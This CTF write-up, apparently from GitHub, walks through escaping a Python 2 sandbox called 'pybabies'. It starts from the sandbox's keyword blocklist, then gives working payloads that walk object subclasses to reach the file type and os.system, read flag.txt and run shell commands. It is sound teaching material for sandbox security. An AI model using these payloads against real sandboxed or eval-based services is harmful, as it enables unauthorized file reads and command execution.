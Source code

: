 # pybabies

This is my first time dealing with a problem involving python sub-typing and method resolution. This writeup is based off of this other awesome wrietup `https://hexplo.it/escaping-the-csawctf-python-sandbox/`.

So we are given a python script, let's take a look at it:

```
#!/usr/bin/env python 

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

So looking at this script, it appears to be a pythong script that filters out certain commands including `sys`, `exec`, and `import`. This is implemented to hopefully stop us from reaching `/bin/sh`, or reading the flag file. However there is a way around it.

While it blocks the names of the commands that we would need, we can still reach them by obtainning references to the commands we would need.

Just like with the writeup that this is based off of, there are two different ways this can be solved. Either by reading `flag.txt`, or gainning access to `os.system`

### flag.txt

Unless specified, all of this is done in a python shell versus the `pyshell.py` script

First we will get the class, and base of a python list

```
$	python
Python 2.7.13 (default, Jan 19 2017, 14:48:08) 
[GCC 6.3.0 20170118] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> [].__class__
<type 'list'>
>>> [].__class__.__base__
<type 'object'>
```

So we can see that the class of list is `list`, and the base of list is `object` so list is a subclass of `object`. However in python we can access other subclasses from a subclass, if they are in the same base. Let's take a look at the other subclasses that we have access to:

```
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

So here we can see all of the subclasses of python including `float`, `list`, and `int`. Looking through the list, we can see one subclass that can help us.

```
<type 'file'>
```

So we have access to the file subclass. With this we should be able to read any file the user the shell is running as has permission to, including `flag.txt`. Let's see what it's index number is so we can reference it.

```
>>> [].__class__.__base__.__subclasses__().index(file)
40
```                    

So we see that it's index number is 40. With this, we should be able to reference the `file` subclass with the index `40`, then read a file. Let's test it out on `pwn.txt`:

```
>>> [].__class__.__base__.__subclasses__()[40]('pwn.txt').read()
'You can read files!\n'
```

So we can see that we are able to successfully read that file. We can shorten that command by establishing the `file` subclass as a variable. Let's test it on `pyshell.py`:
```
python pyshell.py 
Welcome to my Python sandbox! Enter commands below!
>>> file = [].__class__.__base__.__subclasses__()[40]
>>> file('pwn.txt').read()
>>> file('nonexistant.txt').read()
Traceback (most recent call last):
  File "pyshell.py", line 36, in <module>
    exec data
  File "<string>", line 1, in <module>
IOError: [Errno 2] No such file or directory: 'nonexistant.txt'
```

So even though it didn't print anything, we still know that it did read `pwn.txt`. This is because it didn't raise an error, like when I tried to read a file that wasn't there. Since we are reading the text file, we can just simply print it:

```
$	python pyshell.py 
Welcome to my Python sandbox! Enter commands below!
>>> file = [].__class__.__base__.__subclasses__()[40]
>>> print(file('flag.txt').read())
flag{definitely_not_intro_python}

>>> 

``` 

Just like that, we got the flag.

### os.system

So this method is like the previous, however we will be exectuing system commands, and it is a bit more complex.

This time, instead of going after the `file` subclass, we will be pursuing the `warnings.catch_warnings` subcalss, which can be found in the same manner as the `file` subclass:

```
>>> import warnings
>>> [].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
59
```

So we can see that the index is 59. Next  let's look at all of the modules this gives us access to:

```
>>> warn = [].__class__.__base__.__subclasses__()[59]
>>> warn.__init__.func_globals.keys()
['filterwarnings', 'once_registry', 'WarningMessage', '_show_warning', 'filters', '_setoption', 'showwarning', '__all__', 'onceregistry', '__package__', 'simplefilter', 'default_action', '_getcategory', '__builtins__', 'catch_warnings', '__file__', 'warnpy3k', 'sys', '__name__', 'warn_explicit', 'types', 'warn', '_processoptions', 'defaultaction', '__doc__', 'linecache', '_OptionError', 'resetwarnings', 'formatwarning', '_getaction']
```

In there, we can see the module `linecache`. Let's see what that gives us access to:

```
>>> linecache = warn.__init__.func_globals['linecache']
>>> linecache.__dict__.keys()
['updatecache', 'clearcache', '__all__', '__builtins__', '__file__', 'cache', 'checkcache', 'getline', '__package__', 'sys', 'getlines', '__name__', 'os', '__doc__']
```

As you can see there, `linechache` gives us access to `os`
```
>>> import os
>>> linecache.__dict__.values().index(os)
12
>>> os = linecache.__dict__.values()[12
```

Now let's find `system`:

```
>>> os.__dict__.keys().index('system')
144
```

Now that we know the index positions of `warnings.catch_warnings`, `os`, and `system` we can execute system commands (this is in `pyshell.py`):


```
$	python pyshell.py 
Welcome to my Python sandbox! Enter commands below!
>>> warn = [].__class__.__base__.__subclasses__()[59]
>>> linecache = warn.__init__.func_globals['linecache']
>>> oz = linecache.__dict__.values()[12]
>>> zyz = oz.__dict__.values()[144]
>>> zyz('w')
 12:51:29 up 48 min,  1 user,  load average: 0.13, 0.09, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               12:03   48:18  37.39s  0.03s /bin/sh /usr/li
>>> zyz('ls -asl')
total 32
4 drwxr-xr-x 2 guyinatuxedo guyinatuxedo 4096 Aug 22 11:26 .
4 drwxr-xr-x 6 guyinatuxedo guyinatuxedo 4096 Aug 22 07:19 ..
4 -rw-r--r-- 1 guyinatuxedo guyinatuxedo   34 Aug 22 11:25 flag.txt
4 -rw-r--r-- 1 guyinatuxedo guyinatuxedo   20 Aug 22 11:19 pwn.txt
4 -rw-r--r-- 1 guyinatuxedo guyinatuxedo  655 Aug 22 07:18 pyshell.py
8 -rw-r--r-- 1 guyinatuxedo guyinatuxedo 7861 Aug 22 12:50 Readme.md
4 -rw-r--r-- 1 guyinatuxedo guyinatuxedo   22 Aug 22 10:43 test.txt
>>> zyz('cat flag.txt')
flag{definitely_not_intro_python}
>>> 
```

Just like that, we got the flag.

I would like to again give credit to this writeup `https://hexplo.it/escaping-the-csawctf-python-sandbox/`
